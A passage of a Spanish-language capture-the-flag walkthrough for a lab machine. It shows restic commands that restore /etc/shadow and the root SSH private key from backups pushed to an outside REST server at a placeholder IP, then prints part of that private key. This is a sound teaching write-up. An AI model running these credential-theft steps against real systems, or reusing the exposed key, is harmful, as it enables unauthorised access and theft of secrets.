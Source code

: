 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-17 154931.png" alt=""><figcaption></figcaption></figure>

Volveremos a listar nuestras `snapshots` y veremos que se paso de forma correcta la ultima.

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Shell" snapshots
```

Info:

```
enter password for repository: 
repository 353fd58b opened (repository version 2) successfully, password is correct
ID        Time                 Host        Tags        Paths
------------------------------------------------------------------------
0f45b7b6  2025-09-17 09:36:06  artificial              /etc/shadow
ef1ff6a6  2025-09-17 09:48:17  artificial              /root/.ssh/id_rsa
------------------------------------------------------------------------
2 snapshots
```

Ahora vamos a repetir lo mismo de antes para poder exportarla y leerla de forma correcta:

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Shell" restore ef1ff6a6 --include /root/.ssh/id_rsa --target /tmp
```

Info:

```
enter password for repository: 
repository 353fd58b opened (repository version 2) successfully, password is correct
restoring <Snapshot ef1ff6a6 of [/root/.ssh/id_rsa] at 2025-09-17 13:48:17.11103082 +0000 UTC by root@artificial> to /tmp
```

Ahora vamos a leerla de esta forma:

```shell
cat /tmp/root/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA5dXD22h0xZcysyHyRfknbJXk5O9tVagc1wiwaxGDi+eHE8vb5/Yq
2X2jxWO63SWVGEVSRH61/1cDzvRE2br3GC1ejDYfL7XEbs3vXmb5YkyrVwYt/G/5fyFLui
NErs1kAHWBeMBZKRaSy8VQDRB0bgXCKqqs/yeM5pOsm8RpT/jjYkNdZLNVhnP3jXW+k0D1
Hkmo6C5MLbK6X5t6r/2gfUyNAkjCUJm6eJCQgQoHHSVFqlEFWRTEmQAYjW52HzucnXWJqI
4qt2sY9jgGo89Er72BXEfCzAaglwt/W1QXPUV6ZRfgqSi1LmCgpVQkI9wcmSWsH1RhzQj/
MTCSGARSFHi/hr3+M53bsmJ3zkJx0443yJV7P9xjH4I2kNWgScS0RiaArkldOMSrIFymhN
xI4C2LRxBTv3x1mzgm0RVpXf8dFyMfENqlAOEkKJjVn8QFg/iyyw3XfOSJ/Da1HFLJwDOy
1jbuVzGf9DnzkYSgoQLDajAGyC8Ymx6HVVA49THRAAAFiIVAe5KFQHuSAAAAB3NzaC1yc2
EAAAGBAOXVw9todMWXMrMh8kX5J2yV5OTvbVWoHNcIsGsRg4vnhxPL2+f2Ktl9o8Vjut0l
lRhFUkR+tf9XA870RNm69xgtXow2Hy+1xG7N715m+WJMq1cGLfxv+X8hS7ojRK7NZAB1gX
jAWSkWksvFUA0QdG4FwiqqrP8njOaTrJvEaU/442JDXWSzVYZz9411vpNA9R5JqOguTC2y
ul+beq/9oH1MjQJIwlCZuniQkIEKBx0lRapRBVkUxJkAGI1udh87nJ11iaiOKrdrGPY4Bq
PPRK+9gVxHwswGoJcLf1tUFz1FemUX4KkotS5goKVUJCPcHJklrB9UYc0I/zEwkhgEUhR4
v4a9/jOd27Jid85CcdOON8iVez/cYx+CNpDVoEnEtEYmgK5JXTjEqyBcpoTcSOAti0cQU7
98dZs4JtEVaV3/HRcjHxDapQDhJCiY1Z/EBYP4sssN13zkifw2tRxSycAzstY27lcxn/Q5
85GEoKECw2owBsgvGJseh1VQOPUx0QAAAAMBAAEAAAGAKpBZEkQZBBLJP+V0gcLvqytjVY
aFwAw/Mw+X5Gw86Wb6XA8v7ZhoPRkIgGDE1XnFT9ZesvKob95EhUo1igEXC7IzRVIsmmBW
PZMD1n7JhoveW2J4l7yA/ytCY/luGdVNxMv+K0er+3EDxJsJBTJb7ZhBajdrjGFdtcH5gG
tyeW4FZkhFfoW7vAez+82neovYGUDY+A7C6t+jplsb8IXO+AV6Q8cHvXeK0hMrv8oEoUAq
06zniaTP9+nNojunwob+Uzz+Mvx/R1h6+F77DlhpGaRVAMS2eMBAmh116oX8MYtgZI5/gs
00l898E0SzO8tNErgp2DvzWJ4uE5BvunEKhoXTL6BOs0uNLZYjOmEpf1sbiEj+5fx/KXDu
S918igW2vtohiy4//6mtfZ3Yx5cbJALViCB+d6iG1zoe1kXLqdISR8Myu81IoPUnYhn6JF
yJDmfzfQRweboqV0dYibYXfSGeUdWqq1S3Ea6ws2SkmjYZPq4X9cIYj47OuyQ8LpRVAAAA
```